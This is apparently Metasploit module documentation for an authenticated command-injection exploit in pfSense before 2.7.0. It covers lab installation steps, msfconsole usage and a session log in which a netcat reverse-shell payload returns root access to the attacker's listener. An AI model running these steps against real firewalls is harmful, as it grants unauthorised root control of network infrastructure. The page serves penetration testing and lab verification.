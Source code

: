 ## Vulnerable Application

This module exploits an authenticated command injection vulnerabilty in the `restore_rrddata()` function of
pfSense prior to 2.7.0 which allows an authenticated attacker with the `WebCfg - Diagnostics: Backup & Restore` privilege
to execute arbitrary operating system commands as the `root` user.

This module has been tested successfully on version 2.6.0-RELEASE.

### Installing the Application
Download the ISO from [pfSense 2.6.0-RELEASE](https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.6.0-RELEASE-amd64.iso.gz)
and then create a VMWare or VirtualBox VM using this ISO.

Note that you may wish to use the BIOS boot method when prompted for which method to use for installation, 
rather than ZFS or UEFI for testing purposes, just to simplify setup. Otherwise you can accept the default settings.

Once installation is finished you should be prompted to reboot. Reboot, then enter `n` when asked if you want to set up VLANs.

For the WAN prompt enter `em0` which should work, or whatever one other than `a` that appears in the prompt and hit ENTER.

Wait for setup to complete then try to browse to `http://<IP ADDRESS SHOWN HERE>/` replacing the
placeholder with the IP address shown in the prompt. You should see the login page for pfSense.

Log in with username `admin` and password `pfsense`. There should be a setup GUI that appears. Accept all the defaults
and keep clicking `Next` at each of the steps and then `Finish` at the final step. Finally click `Accept` on the export
warning page and `Close` on the following popup. You should now see the main dashboard and should be ready to test the
module.

## Verification Steps
1. Start `msfconsole`
2. Do: `use exploit/unix/http/pfsense_config_data_exec`
3. Do: `set RHOST [IP]`
4. Do: `set USERNAME [username]`
5. Do: `set PASSWORD [password]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

## Scenarios

### pfSense Community Edition 2.6.0-RELEASE

```
msf6 exploit(unix/http/pfsense_config_data_exec) > use exploit/unix/http/pfsense_config_data_exec 
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/http/pfsense_config_data_exec) > set RHOST 1.1.1.1
RHOST => 1.1.1.1
msf6 exploit(unix/http/pfsense_config_data_exec) > set LHOST 2.2.2.2
LHOST => 2.2.2.2
msf6 exploit(unix/http/pfsense_config_data_exec) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] pfSense version: 2.6.0-RELEASE
[+] The target is vulnerable.
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:21942) at 2023-03-26 02:10:48 +0300

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```
